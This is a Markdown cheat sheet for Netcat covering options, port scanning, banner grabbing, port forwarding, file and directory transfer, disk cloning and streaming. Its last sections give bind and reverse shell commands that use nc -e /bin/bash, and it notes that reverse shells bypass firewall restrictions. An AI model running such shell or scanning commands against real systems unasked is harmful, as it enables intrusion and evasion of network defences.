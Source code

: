 ```yaml
---
title: Netcat
date: 2020-11-25 18:28:43
background: bg-blue-600
tags:
  - ncat
  - nc
  - utility
  - network
  - traffic
categories:
  - Linux Command
intro: This cheat sheet provides various for using Netcat on both Linux and Unix.
plugins:
  - copyCode
---
```


## Getting Started {.cols-5}

### Usage {.col-span-2}

Connect to a host located anywhere

```shell script
$ nc [options] [host] [port]
```

Listen for incoming connections

```shell script
$ nc -lp port [host] [port]
```

### Option examples {.col-span-3 .row-span-2}

| Option | Description                | Example                                  |
| ------ | -------------------------- | ---------------------------------------- |
| `-h`   | nc -h                      | Help                                     |
| `-z`   | nc -z 192.168.1.9 1-100    | Port scan for a host or IP address       |
| `-v`   | nc -zv 192.168.1.9 1-100   | Provide verbose output                   |
| `-n`   | nc -zn 192.168.1.9 1-100   | Fast scan by disabling DNS resolution    |
| `-l`   | nc -lp 8000                | TCP Listen mode _(for inbound connects)_ |
| `-w`   | nc -w 180 192.168.1.9 8000 | Define timeout value                     |
| `-k`   | nc -kl 8000                | Continue listening after disconnection   |
| `-u`   | nc -u 192.168.1.9 8000     | Use UDP instead of TCP                   |
| `-q`   | nc -q 1 192.168.1.9 8000   | Client stay up after EOF                 |
| `-4`   | nc -4 -l 8000              | IPv4 only                                |
| `-6`   | nc -6 -l 8000              | IPv6 only                                |

### Chat client-server {.col-span-2}

Server (192.168.1.9)

```shell script
$ nc -lv 8000
```

Client

```shell script
$ nc 192.168.1.9 8000
```

## Netcat Examples

### Banner grabbing

```shell script
$ nc website.com 80
GET index.html HTTP/1.1
HEAD / HTTP/1.1
```

or

```shell script
echo "" | nc -zv -wl 192.168.1.1 801-805
```

### Port scanning

Scan ports between 21 to 25

```shell script
$ nc -zvn 192.168.1.1 21-25
```

Scan ports 22, 3306 and 8080

```shell script
$ nc -zvn 192.168.1.1 22 3306 8080
```

### Proxy and port forwarding

```shell script
$ nc -lp 8001 -c "nc 127.0.0.1 8000"
```

or

```shell script
$ nc -l 8001 | nc 127.0.0.1 8000
```

Create a tunnel from one local port to another

### Download file

Server (192.168.1.9)

```shell script
$ nc -lv 8000 < file.txt
```

Client

```shell script
$ nc -nv 192.168.1.9 8000 > file.txt
```

Suppose you want to transfer a file “file.txt” from server A to client B.

### Upload file

Server (192.168.1.9)

```shell script
$ nc -lv 8000 > file.txt
```

Client

```shell script
$ nc 192.168.1.9 8000 < file.txt
```

Suppose you want to transfer a file “file.txt” from client B to server A:

### Directory transfer

Server (192.168.1.9)

```shell script
$ tar -cvf – dir_name | nc -l 8000
```

Client

```shell script
$ nc -n 192.168.1.9 8000 | tar -xvf -
```

Suppose you want to transfer a directory over the network from A to B.

### Encrypt transfer {.col-span-2}

Server (192.168.1.9)

```shell script
$ openssl enc -des3 -in file.txt -pass pass:password | nc -l 8000
```

Client

```shell script
$ nc 192.168.1.9 8000 | openssl enc -des3 -d -pass pass:password -out file.txt
```

Encrypt data before transfering over the network

### Clones

Server (192.168.1.9)

```shell script
$ dd if=/dev/sda | nc -l 8000
```

Client

```shell script
$ nc -n 192.168.1.9 8000 | dd of=/dev/sda
```

Cloning a linux PC is very simple. Suppose your system disk is /dev/sda

### Video streaming

Server (192.168.1.9)

```shell script
$ cat video.avi | nc -l 8000
```

Client

```shell script {.wrap}
$ nc 192.168.1.9 8000 | mplayer -vo x11 -cache 3000 -
```

Streaming video with netcat

### Remote shell

Server (192.168.1.9)

```shell script
$ nc -lv 8000 -e /bin/bash
```

Client

```shell script
$ nc 192.168.1.9 8000
```

We have used remote Shell using the telnet and ssh but what if they are not installed and we do not have the permission to install them, then we can create remote shell using netcat also.

### Reverse shell

Server (192.168.1.9)

```shell script
$ nc -lv 8000
```

Client

```shell script
$ nc 192.168.1.9 8000 -v -e /bin/bash
```

Reverse shells are often used to bypass the firewall restrictions like blocked inbound connections
